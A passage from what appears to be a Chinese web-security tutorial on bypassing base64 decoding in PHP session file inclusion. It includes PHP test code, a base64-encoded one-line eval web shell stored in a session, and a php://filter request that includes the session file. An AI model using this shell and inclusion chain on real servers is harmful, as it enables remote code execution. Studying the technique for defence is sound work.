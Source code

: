 base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。下面编写一个简单的代码，测试一组数据看是否满足我们所说的情况。
- **测试代码**
探测base64_decode解码的特点

```
&lt;?php
/**
 * Created by PhpStorm.
 * User: Qftm
 * Date: 2020/3/17
 * Time: 9:16
 */

$basestr0="QftmrootQftm";
$basestr1="Qftm#root@Qftm";
$basestr2="Qftm^root&amp;Qftm";
$basestr3="Qft&gt;mro%otQftm";
$basestr4="Qf%%%tmroo%%%tQftm";

echo base64_decode($basestr0)."n";
echo base64_decode($basestr1)."n";
echo base64_decode($basestr2)."n";
echo base64_decode($basestr3)."n";
echo base64_decode($basestr4)."n";
?&gt;
```
- 运行结果
[![](https://p3.ssl.qhimg.com/t01251b992d2780d543.png)](https://p3.ssl.qhimg.com/t01251b992d2780d543.png)

从结果中可以看到一个字符串中，不管出现多少个特殊字符或者位置上的差异，都不会影响最终的结果，可以验证base64_decode是遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。

<a class="reference-link" name="Bypass%20base64_encode"></a>**Bypass base64_encode**

了解了base64编码原理之后和解码的特点，怎么让base64解码和编码的因果关系对照上，其实就很简单了，我们只要让session文件中base64编码的前面这一部分`username|s:40:"`正常解码就可以，怎么才能正常解码呢，需要满足base64解码的原理，就是4个字节能够还原原始的3个字节信息，也就是说session前面的这部分数据长度需要满足4的整数倍，如果不满足的话，就会影响session后面真正的base64编码的信息，也就导致上面出现的乱码情况。

<a class="reference-link" name="Bypass%E5%88%86%E6%9E%90%E5%88%A4%E6%96%AD"></a>**Bypass分析判断**

正常情况下base64解码包含`serialize_handler=php`处理过的原始session信息，未能正常解析执行

```
username|s:40:"PD9waHAgZXZhbCgkX1BPU1RbJ210ZnEnXSk7Pz4=";

?file=php://filter/convert.base64-decode/resource=/var/lib/php/sessions/sess_qfg3alueqlubqu59l822krh5pl
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e4d4e6139a38fccf.png)

依据base64编码和解码的特点进行分析，当session存储的信息中用户名编码后的长度为个位数时，`username|s:1:"`这部分数据长度为14，实际解码为`usernames1`，实际长度为10，不满足情况。

